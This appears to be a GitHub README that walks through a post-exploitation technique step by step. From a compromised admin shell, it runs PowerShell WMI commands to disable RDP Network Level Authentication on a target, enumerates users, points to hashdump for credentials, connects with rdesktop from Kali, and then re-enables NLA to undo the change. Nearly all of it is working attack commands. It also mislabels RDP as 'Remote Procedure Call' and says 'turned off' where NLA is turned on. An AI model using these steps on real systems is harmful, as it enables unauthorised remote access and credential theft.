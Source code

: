 ## Disclosures of Remote Procedure Call
-DO THIS AT YOUR OWN RISK :) 

1. Shell Needed Requires Admin Privilege.
2. Powershell MUST be Used !
3. You will need the password of the Desktop you are connecting to.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

      Image is seen below:
      ![alt text](resources/rpc_images/sysinfo.PNG)

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
   
   Follow the Codes in Order :-
    
   - `shell`
    
   - `powershell`
    
   - `$ComputerName = " NAME SEEN IN SYSINFO "`
  
      Image is seen below:
      ![alt text](resources/rpc_images/Variable.PNG)
      
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    If "1" is returned, it means NLA is on.
    If "0" is returned, it means NLA is off.
    
    Image is seen below:
    ![alt text](resources/rpc_images/CheckingNLA.PNG)
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      
      Image is seen below:
    ![alt text](resources/rpc_images/TurnOffNLA.PNG)
  
    Now It will be turned off.
    You can use Number 4 command to check if it worked. 
  
      Image is seen below:
      ![alt text](resources/rpc_images/TurnedOffNLA.PNG)
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    You can use the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
    
    Image is seen below:
    ![alt text](resources/rpc_images/rdesktop.PNG)
    ![alt text](resources/rpc_images/connectedRPC.PNG)
    
    If you do not know the Username, run the command `net user` in the Powershell
    
    Image is seen below:
    ![alt text](resources/rpc_images/rdesktop.PNG)
        
    If you do not know the Username's Password, hashdump will be required. 
    
    
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Image is seen below:
    ![alt text](resources/rpc_images/TurnOnNLA.PNG)

    Now It will be turned off.
    You can use Number 4 command to check if it worked.
   
    Image is seen below:
    ![alt text](resources/rpc_images/TurnedOnNLA.PNG)

  
